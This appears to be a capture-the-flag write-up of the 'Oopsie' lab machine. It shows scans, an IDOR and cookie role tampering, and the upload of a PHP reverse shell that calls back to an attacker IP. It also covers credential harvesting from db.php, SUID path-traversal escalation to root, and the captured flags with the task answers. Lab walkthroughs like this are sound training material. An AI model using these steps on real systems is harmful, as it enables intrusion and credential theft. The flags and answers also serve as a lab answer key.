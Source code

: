 # Oopsie

## ip

target: 10.129.95.191

attker: 10.10.15.248

## Enumeration

```bash
└─$ nmap -p- -Pn --min-rate=1000 -sV 10.129.95.191
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-24 00:33 EST
Nmap scan report for 10.129.95.191
Host is up (0.38s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.49 seconds

```

## Hidden path

hidden path in source: `/cdn-cgi/login`

![source.png](./img/oopsie-source.png)

## IDOR + access control vulnerability => access upload functionality

IDOR: access `http://10.129.78.254/cdn-cgi/login/admin.php?content=accounts&id=1` => admin id = 34322

![idor.png](./img/oopsie-idor.png)

access control vulnerability:

- `http://10.129.78.254/cdn-cgi/login/admin.php?content=uploads` is blocked for guest users

  ![blocked.png](./img/oopsie-block-guest.png)
- user role is controlled from the client side - the cookie, change the cookie and we can access the upload functionality:

  ![access-control-vuln.png](./img/oopsie-access-control-vuln.png)

## File upload vulnerability => reverse shell

found a dir named `uploads`

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.129.95.191
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/02/24 00:36:17 Starting gobuster in directory enumeration mode
===============================================================
...
/uploads              (Status: 301) [Size: 318] [--> http://10.129.95.191/uploads/]
Progress: 20467 / 20470 (99.99%)
===============================================================
2023/02/24 00:49:31 Finished
===============================================================
```

upload php reverse shell:

```bash
┌──(kali㉿kali)-[/usr/share/webshells]
└─$ cat php/php-reverse-shell.php | grep 'CHANGE'
$ip = '10.10.15.248';  // CHANGE THIS
$port = 4242;       // CHANGE THIS
```

open a listening port using pwncat: `pwncat-cs --listen --port 4242`

access uploaded file: `http://10.129.95.191/uploads/php-reverse-shell.php` =>

```bash
┌──(pwncat)─(kali㉿kali)-[~]
└─$ pwncat-cs --listen --port 4242
/home/kali/Documents/learn-python/env/pwncat/lib/python3.11/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[08:32:41] Welcome to pwncat 🐈!                                                                                                                                                                                             __main__.py:164
[08:32:46] received connection from 10.129.95.191:49130                                                                                                                                                                           bind.py:84
[08:32:54] 0.0.0.0:4242: upgrading from /bin/dash to /bin/bash                                                                                                                                                                manager.py:957
[08:32:57] 10.129.95.191:49130: registered new host w/ db                                                                                                                                                                     manager.py:957
(local) pwncat$                                                                                                                                                                                                                             
(remote) www-data@oopsie:/$ whoami
www-data

```

## user flag

```bash
(remote) www-data@oopsie:/$ cat /home/robert/user.txt 
f2c74ee8db7983851ab2a96a44eb7981
```

## source code => robert credentials

```bash
(remote) www-data@oopsie:/$ cat var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

ssh login as robert:

```bash
┌──(kali㉿kali)-[~]
└─$ ssh robert@10.129.78.254 
robert@oopsie:~$ 
```

## privilege escalation via suid => root flag

recon => found that robert is in a group named `bugtracker`:

```bash
robert@oopsie:~$ sudo -l
[sudo] password for robert: 
Sorry, user robert may not run sudo on oopsie.
robert@oopsie:~$ id
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

find which file in group `bugtracker`:

```bash
robert@oopsie:~$ find / -group bugtracker
...
/usr/bin/bugtracker
robert@oopsie:~$ ls -l /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

this program has SUID bit => we can run it as root.

exploit:

```bash
robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: abcdef
---------------

cat: /root/reports/abcdef: No such file or directory

robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../root.txt
---------------

af13b0bee69f8a877c3faf667f7beacf
```

## Task

Task 1: With what kind of tool can intercept web traffic?: `proxy`

Task 2: What is the path to the directory on the webserver that returns a login page?: `/cdn-cgi/login`

Task 3: What can be modified in Firefox to get access to the upload page?: `cookie`

Task 4: What is the access ID of the admin user?: `34322`

Task 5: On uploading a file, what directory does that file appear in on the server?: `/uploads`

Task 6: What is the file that contains the password that is shared with the robert user?: `db.php`

Task 7: What executible is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?: `find`

Task 8: Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?: `root`

Task 9: What SUID stands for?: `Set owner User ID`

Task 10: What is the name of the executable being called in an insecure manner?: `cat`

Submit user flag: done

Submit root flag: done

## References

